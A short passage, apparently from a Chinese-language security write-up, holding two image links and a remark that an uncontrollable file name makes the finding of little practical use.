-1.png)  
尝试访问：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094207-1d43e4b8-bbec-1.png)  
文件名我们无法控制所以有点鸡肋。
